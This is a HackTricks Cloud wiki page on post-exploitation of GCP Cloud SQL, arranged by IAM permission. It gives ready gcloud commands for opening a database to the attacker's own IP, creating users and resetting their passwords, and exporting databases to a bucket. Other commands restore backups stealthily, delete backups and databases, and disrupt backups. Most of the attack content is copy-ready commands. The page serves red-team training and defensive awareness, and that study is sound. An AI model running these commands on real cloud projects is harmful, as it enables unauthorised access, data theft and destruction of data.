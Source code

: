 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

For more information about Cloud SQL check:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

To connect to the databases you **just need access to the database port** and know the **username** and **password**, there isn't any IAM requirements. So, an easy way to get access, supposing that the database has a public IP address, is to update the allowed networks and **allow your own IP address to access it**.

```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
    --authorized-networks "$(curl ifconfig.me)" \
    --assign-ip \
    --quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```

It's also possible to use **`--no-backup`** to **disrupt the backups** of the database.

As these are the requirements I'm not completely sure what are the permissions **`cloudsql.instances.connect`** and **`cloudsql.instances.login`** for. If you know it send a PR!

### `cloudsql.users.list`

Get a **list of all the users** of the database:

```bash
gcloud sql users list --instance <intance-name>
```

### `cloudsql.users.create`

This permission allows to **create a new user inside** the database:

```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```

### `cloudsql.users.update`

This permission allows to **update user inside** the database. For example, you could change its password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups might contain **old sensitive information**, so it's interesting to check them.\
**Restore a backup** inside a database:

```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```

To do it in a more stealth way it's recommended to create a new SQL instance and recover the data there instead of in the currently running databases.

### `cloudsql.backupRuns.delete`

This permission allow to delete backups:

```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```

### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** to a Cloud Storage Bucket so you can access it from there:

```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```

### `cloudsql.instances.import`, `storage.objects.get`

**Import a database** (overwrite) from a Cloud Storage Bucket:

```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```

### `cloudsql.databases.delete`

Delete a database from the db instance:

```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
